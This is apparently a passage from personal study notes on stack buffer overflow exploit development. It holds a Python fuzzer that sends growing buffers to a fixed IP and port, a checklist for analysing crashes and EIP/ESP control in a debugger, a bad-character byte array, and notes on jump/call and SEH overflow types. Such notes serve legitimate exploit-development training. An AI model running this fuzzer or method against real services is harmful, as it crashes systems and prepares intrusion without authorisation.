     size = 1
    while True:
    
        size = size + 10
        inputBuffer = b"A" * size
    
        print("\nFuzzing with {} bytes".format(len(inputBuffer)))
        s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('192.168.10.234', 4455))
        s.send(inputBuffer)
        s.close()   
        print("\nDone!"
    ```
    
- [ ]  Analyze the crash: Identify the buffer size check the `ECX` or `EAX` registers.  Do we overwrite `EIP` as expected?
    - Are we overwriting registers?
    - Where is our buffer stores? Is it stored as DWORDs? If stored in UNICODE every character presented as WORD rather than byte, 12 bytes then become 24 byte in unicode. e.g. appends 0x00 to every character
    - How close is our buffer to `ESP`?
    - Restrictions identification
        - Partial overwrites (increase buffer size and recheck) `dds esp L10` e.g. 3 bytes `00414141`
        - Is the buffer treated as a string e.g. `AAAAAA` etc, is a null byte added?
        - Any space restrictions identified?
        - Bad characters e.g. null byte terminated `00414141` as in this example. Monitor the stack e.g. `ESP`, etc., if not crashing, can be bad chars, check mangling (`db esp - 0nSIZE`)
            
            Note uncomment each section as you move through them.. **Check bad chars twice!!**
            
            ```python
            	BADCHARS = (
              b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
              b"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
              b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
              b"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
              b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
              b"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
              b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
              b"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
              b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
              b"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
              b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
              b"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
              b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
              b"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
              b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
              b"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
            ```
            
- [ ]  Type of overflow e.g. basic stack (`ESP` ≠ `Buffer` and `EIP` control) or SEH
    - Types Description
        - **jump (or call)** Control EIP register via `JMP` or `CALL` —> Binary Search Tree or Unique Strings Monitor Overflow ([https://wiremask.eu/tools/buffer-overflow-pattern-generator/](https://wiremask.eu/tools/buffer-overflow-pattern-generator/))
            
